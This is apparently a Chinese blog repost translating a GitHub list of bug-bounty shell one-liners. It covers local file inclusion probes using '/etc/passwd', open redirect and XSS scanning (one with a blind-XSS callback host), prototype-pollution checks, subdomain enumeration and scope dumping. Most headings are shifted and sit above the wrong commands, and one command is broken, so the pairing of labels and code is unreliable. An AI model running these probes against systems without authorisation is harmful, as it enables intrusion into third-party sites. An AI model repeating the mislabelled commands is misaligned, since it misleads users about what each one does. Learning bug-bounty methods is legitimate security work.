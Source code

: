 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650538218&idx=3&sn=6965651ab678c3e92b91e09c1ae4f3ee&chksm=83bd650eb4caec18952fa47f01823e4fac9a89f2dc9d6aea67e04dd42cd12cdb725a89cadec2&mpshare=1&scene=1&srcid=0504XjrNNZ1uVO0Gk0OG7dGx&sharer_sharetime=1651631490567&sharer_shareid=8a467675e94cd5b11b6640b7770d6cc6#rd)

**定义**

**本节定义了整个单行命令 / 脚本中使用的特定术语或占位符。**

 1.1. "HOST" 定义了一个主机名、（子）域或 IP 地址，例如，用 internal.host、domain.tld、sub.domain.tld 或 127.0.0.1 取代。

 1.2. "HOSTS.txt" 包含标准 1.1，在文件中超过一个。

 2.1. "URL" 肯定定义了 URL，例如被 http://domain.tld/path/page.html，或者有点以 HTTP/HTTPS 协议开始。

 2.2. 2.2. "URLS.txt" 包含标准 2.1，在文件中不止一个。

 3.1. "FILE.txt" 或 "FILE{N}.txt" 是指根据上下文和需要运行命令 / 脚本所需的文件。

 4.1. "OUT.txt" 或 "OUT{N}.txt" 是指作为目标存储结果的文件将是被执行的命令。

**本地文件包含 @dwisiswant0**

**开放式重定向 @dwisiswant0**

```
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**@N3T_hunt3r**

```
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### **XSS @cihanmehmet**

```
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

**@fanimalikhack**

```
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

**@oliverrickfors**

```
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

### **原型链_污染_** **@R0X4R**

```
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### **查找 JavaScript 文件 @D0cK3rG33k**

```
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

**从 JavaScript 中提取端点 @renniepak**

```
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

**从目标列表中获取 CIDR 和组织信息 @steve_mcilwain**

```
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

**从 RapidDNS.io 获取子域名 @andirrahmani1**

```
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

**从 BufferOver.run 获取子域 @_ayoubfathi_**

```
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

**@AnubhavSingh_**

```
curl -s https://dns.bufferover.run/dns?q=.HOST.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
```

**从 Riddler.io 获取子域名 @pikpikcu**

```
export domain="HOST"; curl "https://tls.bufferover.run/dns?q=$domain" | jq -r .Results'[]' | rev | cut -d ',' -f1 | rev | sort -u | grep "\.$domain"
```

### **Get Subdomains from VirusTotal@pikpikcu**

```
curl -s "https://riddler.io/search/exportcsv?q=pld:HOST" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

**用 cyberxplore 获取子域名 @pikpikcu**

```
curl -s "https://www.virustotal.com/ui/domains/HOST/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

**从 CertSpotter 获取子域 @caryhooper**

```
curl https://subbuster.cyberxplore.com/api/find?domain=HOST -s | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+"
```

### **从 Archive 中获取子域 @pikpikcu**

```
curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

**从 JLDC 获取子域 @pikpikcu**

```
curl -s "http://web.archive.org/cdx/search/cdx?url=*.HOST/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```

**从 securitytrails 获取子域 @pikpikcu**

```
curl -s "https://jldc.me/anubis/subdomains/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

**Bruteforcing Subdomain using DNS Over@pikpikcu**

```
curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u
```

### **FFUF 的子域暴力破解器 @GochaOqradze** 

```
while read sub; do echo "https://dns.google.com/resolve? | parallel -j100 -q curl -s -L --silent  | grep -Po '[{\[]{1}([,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]|".*?")+[}\]]{1}' | jq | grep "name" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u ; done < FILE.txt
```

**从 IP 地址查找 ASN 的分配 IP 范围 wains.be**   

```
ffuf -u https://FUZZ.HOST -w FILE.txt -v | grep "| URL |" | awk '{print $4}'
```

### **从文件中提取 IP @emenalf** 

```
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net IP | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```

### **查找子域接管** 

```
grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
```

### **使用 cURL + Parallel 进行 URL 探测** 

```
subfinder -d HOST >> FILE; assetfinder --subs-only HOST >> FILE; amass enum -norecursive -noalts -d HOST >> FILE; subjack -w FILE -t 100 -timeout 30 -ssl -c $GOPATH/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ;
```

### **我个人觉得很有用的来了，注意哈。上面并不全，全的在原文，我翻译过来后，筛出来适合咱用的一些命令**

### **转储范围内的资产 `chaos-bugbounty-list@dwisiswant0`** 

```
cat HOSTS.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -skw
```

### **转储范围内的资产 `bounty-targets-data`**

#### HackerOne 程序 

```
curl -sL https://github.com/projectdiscovery/public-bugbounty-programs/raw/master/chaos-bugbounty-list.json | jq -r '.programs[].domains | to_entries | .[].value'
```

#### BugCrowd 程序 

```
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'
```

### **还有一些，在原文，hackerone 的资产是每小时更新的可以进行差异化对比来获取到新的项目资产范围  
**

### **从 swagger.json 提取端点 @zer0pwn  最常用的语句了**

```
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

### **查找隐藏的服务器和 / 或管理面板  这个依托与字典了**

```
curl -s https://HOST/v2/swagger.json | jq '.paths | keys[]'
```

在你们用这些工具的时候最好开一台服务器来配置你们的工具环境变量，我用的 centos 缺什么从 yum 拉取或者你已经配置好了工具保证你的命令能够调用的到比如前面的 subfinder，ffuf 不然的话会报错的，其余的命令看原文吧，重复利用的比较少

原文地址；  

### https://github.com/dwisiswant0/awesome-oneliner-bugbounty

如侵权请私聊公众号删文  

**END**